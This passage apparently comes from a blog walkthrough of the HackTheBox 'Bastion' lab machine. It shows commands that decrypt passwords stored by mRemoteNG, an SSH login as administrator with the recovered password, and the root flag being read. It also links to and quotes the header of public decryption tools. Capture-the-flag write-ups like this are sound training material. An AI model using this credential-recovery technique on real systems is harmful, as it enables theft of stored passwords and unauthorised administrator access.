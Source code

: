 So, there was a script which could crack the passwords that the mRemoteNG software stores in whatever format. And, that’s what I did:

`kali@starscorp1o:~/htb/boxes/bastion$ python mremoteng_decrypt.py -s yhgmiu5bbuamU3qMUKc/uYDdmbMrJZ/JvR1kYe4Bhiu8bXybLxVnO0U9fKRylI7NcB9QuRsZVvla8esB<br></br>Password: bureaulampje`

![](http://vedanttare.com/wp-content/uploads/2022/04/admin-pass-crack.png)

`kali@starscorp1o:~/htb/boxes/bastion$ python mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==<br></br>Password: thXLHM96BeKL0ER2`

Using SSH to login as administrator:

`kali@starscorp1o:~/htb/boxes/bastion$ ssh administrator@10.10.10.134<br></br>administrator@10.10.10.134's password:<br></br>Microsoft Windows [Version 10.0.14393]<br></br>(c) 2016 Microsoft Corporation. All rights reserved.`

`administrator@BASTION C:\Users\Administrator>whoami<br></br>bastion\administrator`

![](http://vedanttare.com/wp-content/uploads/2022/04/ssh-admin.png)

And BOOM!!! We got root!!!! Now we could grab the root flag.

administrator@BASTION C:\\Users\\Administrator\\Desktop&gt;type root.txt  
958850b91811676ed6620a9c430e65c8

![](http://vedanttare.com/wp-content/uploads/2022/04/root-flag-got-it.png)

Important links and resources:

<https://github.com/haseebT/mRemoteNG-Decrypt>

mRemote Offline Password Decrypt #

Based on Metasploit Module enum\_mremote\_pwds.rb from David Maloney

Autor: Adriano Marcio Monteiro

E-mail: adrianomarciomonteiro@gmail.com

Blog: adrianomarciomonteiro.blogspot.com.br

\# Usage: ruby mRemoteOffPwdsDecrypt.rb confCons.xml

It was obvious that confCons.xml had passwords.

Check out my previous post:

<figure class="wp-block-embed is-type-wp-embed is-provider-vedant-tare wp-block-embed-vedant-tare"><div class="wp-block-embed__wrapper">> [Hackthebox – Blocky](https://vedanttare.com/hackthebox-blocky/)

<iframe class="wp-embedded-content" data-secret="PNm5iIxFGC" frameborder="0" height="338" marginheight="0" marginwidth="0" sandbox="allow-scripts" scrolling="no" security="restricted" src="https://vedanttare.com/hackthebox-blocky/embed/#?secret=dbgfnihfG8#?secret=PNm5iIxFGC" style="position: absolute; clip: rect(1px, 1px, 1px, 1px);" title="“Hackthebox – Blocky” — VEDANT TARE" width="600"></iframe></div></figure>